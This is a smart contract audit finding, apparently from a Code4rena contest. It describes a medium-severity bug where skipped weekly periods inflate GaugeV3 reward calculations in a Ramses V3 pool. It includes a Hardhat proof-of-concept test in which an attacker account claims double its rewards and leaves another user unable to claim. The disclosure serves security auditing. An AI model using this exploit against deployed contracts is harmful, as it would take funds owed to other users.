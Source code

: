 ## [M] Inflated `GaugeV3` rewards when period is skipped

The `GaugeV3` contract distributes rewards based on the proportion of liquidity that each position had in range over each 1-week "period". This is calculated by `cachePeriodEarned()` in the gauge, which calls `positionPeriodSecondsInRange()` on the `RamsesV3Pool`. A key part of this calculation is the `periodCumulativesInside()` function, which computes the total seconds per liquidity within a tick range for that period.

In `periodCumulativesInside()`, one sub-case occurs when the period is in the past, and the tick range was active at the end of that period:

```solidity
function periodCumulativesInside(/* ... */) /* ... */ {
    // ...
    if (lastTick < tickLower) {
        // ...
    } else if (lastTick < tickUpper) {
        // ...
        if (currentPeriod <= period) {
            // ...
        } else {
            cache.secondsPerLiquidityCumulativeX128 = $.periods[period].endSecondsPerLiquidityPeriodX128;
        }
        return
            cache.secondsPerLiquidityCumulativeX128 -
            snapshot.secondsPerLiquidityOutsideLowerX128 -
            snapshot.secondsPerLiquidityOutsideUpperX128;
    } else {
        // ...
    }
}
```

Notice that this sub-case relies on `$.periods[period].endSecondsPerLiquidityPeriodX128`, which is meant to represent the total seconds per liquidity when the period ended. However, this value is actually more accurately described as "the seconds per liquidity at the start of the next period", which can be seen in how `_advancePeriod()` and `newPeriod()` are implemented:

```solidity
function _advancePeriod() /* ... */ {
    // ...
    if ((_blockTimestamp() / 1 weeks) != _lastPeriod) {
        // ...
        uint160 secondsPerLiquidityCumulativeX128 = Oracle.newPeriod(
            $.observations,
            _slot0.observationIndex,
            period
        );
        // ...
        $.periods[_lastPeriod].endSecondsPerLiquidityPeriodX128 = secondsPerLiquidityCumulativeX128;
        // ...
    }
}

function newPeriod(/* ... */) /* ... */ {
    // ...
    uint32 delta = uint32(period) * 1 weeks - 1 - last.blockTimestamp;
    secondsPerLiquidityCumulativeX128 =
        last.secondsPerLiquidityCumulativeX128 +
        ((uint160(delta) << 128) / ($.liquidity > 0 ? $.liquidity : 1));
    // ...
}
```

So, this means that if a period is skipped (meaning no activity happens in the pool during the period), the next time `_advancePeriod()` is called, the `endSecondsPerLiquidityPeriodX128` for the last period will be set to just before the start of the period after the skipped period. This is effectively one week after the last period actually ended. This adds extra time to the sub-case mentioned above, which leads to inflated rewards for users.

### Impact

If period `p` has gauge rewards and period `p+1` has no pool activity, the reward calculation for period `p` will be inflated, allowing users to claim more tokens than they should.

### Proof of Concept

The following test file can be added to `test/v3/`.

```javascript
import { ethers } from "hardhat";
import { HardhatEthersSigner } from "@nomicfoundation/hardhat-ethers/signers";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { testFixture } from "../../scripts/deployment/testFixture";
import { expect } from "../uniswapV3CoreTests/shared/expect";
import * as helpers from "@nomicfoundation/hardhat-network-helpers";
import { createPoolFunctions } from "../uniswapV3CoreTests/shared/utilities";

const testStartTimestamp = Math.floor(new Date("2030-01-01").valueOf() / 1000);

describe("Code4rena Contest", () => {
    let c: Awaited<ReturnType<typeof auditTestFixture>>;
    let wallet: HardhatEthersSigner;
    let attacker: HardhatEthersSigner;
    const fixture = testFixture;

    async function auditTestFixture() {
        const suite = await loadFixture(fixture);
        [wallet, attacker] = await ethers.getSigners();

        const pool = suite.clPool;

        const swapTarget = await (
            await ethers.getContractFactory(
                "contracts/CL/core/test/TestRamsesV3Callee.sol:TestRamsesV3Callee",
            )
        ).deploy();

        const {
            swapToLowerPrice,
            swapToHigherPrice,
            swapExact0For1,
            swap0ForExact1,
            swapExact1For0,
            swap1ForExact0,
            mint,
            flash,
        } = createPoolFunctions({
            token0: suite.usdc,
            token1: suite.usdt,
            swapTarget: swapTarget,
            pool,
        });

        return {
            ...suite,
            pool,
            swapTarget,
            swapToLowerPrice,
            swapToHigherPrice,
            swapExact0For1,
            swap0ForExact1,
            swapExact1For0,
            swap1ForExact0,
            mint,
            flash,
        };
    }

    describe("Proof of concepts", () => {

        beforeEach("setup", async () => {
            c = await loadFixture(auditTestFixture);
            [wallet, attacker] = await ethers.getSigners();
        });

        it("Inflated multi-week gauge rewards", async () => {

            console.log("-------------------- START --------------------");

            const startPeriod: number = Math.floor(testStartTimestamp / 604800) + 1;
            const startPeriodTime = startPeriod * 604800;
            const secondPeriodTime: number = (startPeriod + 1) * 604800;
            const thirdPeriodTime: number = (startPeriod + 2) * 604800;

            // Begin at the very start of a period
            await helpers.time.increaseTo(startPeriodTime);
            console.log("Liquidity start", await c.pool.liquidity());
            console.log("Tick start", (await c.pool.slot0()).tick);

            // Begin by minting two positions, both with 100 liquidity in the same range
            await c.mint(wallet.address, 0n, -10, 10, 100n)
            await c.mint(attacker.address, 0n, -10, 10, 100n)
            console.log("Liquidity after", await c.pool.liquidity());

            // Also add 10 tokens as a gauge reward for this period
            await c.usdc.approve(c.clGauge, ethers.MaxUint256);
            await c.clGauge.notifyRewardAmount(c.usdc, ethers.parseEther("10"))

            // Increase to the next period
            await helpers.time.increaseTo(secondPeriodTime);

            // See how much the two positions have earned, should be basically 50 USDC each
            const walletEarned1 = await c.clGauge.periodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10);
            const attackerEarned1 = await c.clGauge.periodEarned(startPeriod, c.usdc, attacker.address, 0, -10, 10);
            const tokenTotalSupplyByPeriod = await c.clGauge.tokenTotalSupplyByPeriod(startPeriod, c.usdc);

            console.log("walletEarned1", walletEarned1);
            console.log("attackerEarned1", attackerEarned1);
            console.log("tokenTotalSupplyByPeriod", tokenTotalSupplyByPeriod);

            // Notice that anyone can cache the "wallet" address earned amount. This will "lock in" that
            // the wallet address has earned ~50 USDC.
            await c.clGauge.cachePeriodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10, true);

            // Now if a whole period goes by, the "endSecondsPerLiquidityPeriodX128" for the startPeriod will be
            // set too far in the future, and the attacker will end up getting double the rewards they should.
            await helpers.time.increaseTo(thirdPeriodTime);
            await c.clPool._advancePeriod();

            const attackerEarned2 = await c.clGauge.periodEarned(startPeriod, c.usdc, attacker.address, 0, -10, 10);
            console.log("attackerEarned2", attackerEarned2);
            const attackerBalanceBefore = await c.usdc.balanceOf(attacker.address);
            await c.clGauge.connect(attacker).getPeriodReward(startPeriod, [c.usdc], attacker.address, 0, -10, 10, attacker.address);
            const attackerBalanceAfter = await c.usdc.balanceOf(attacker.address);
            console.log("attacker claim amount", attackerBalanceAfter - attackerBalanceBefore);

            // This is all at the expense of the wallet address, because they had their rewards "locked in" and
            // can't benefit from the bug, and moreover will not be able to claim anything because the attacker
            // took all the tokens
            const walletEarned2 = await c.clGauge.periodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10);
            console.log("walletEarned2", walletEarned2);
            await expect(
                c.clGauge.connect(wallet).getPeriodReward(startPeriod, [c.usdc], wallet.address, 0, -10, 10, wallet.address)
            ).to.be.revertedWithCustomError(c.usdc, 'ERC20InsufficientBalance');

            console.log("-------------------- END --------------------");
        });
    });
});
```




By running `npx hardhat test --grep "Code4rena Contest"`, the following output can be seen:

    -------------------- START --------------------
    Liquidity start 0n
    Tick start 0n
    Liquidity after 200n
    walletEarned1 4999991732804232804n
    attackerEarned1 4999991732804232804n
    tokenTotalSupplyByPeriod 10000000000000000000n
    attackerEarned2 9999991732804232804n
    attacker claim amount 9999991732804232804n
    walletEarned2 4999991732804232804n
    -------------------- END --------------------
        ✔ Inflated multi-week gauge rewards (81ms)

This output shows that the attacker can claim double their intended rewards at the expense of other another user.



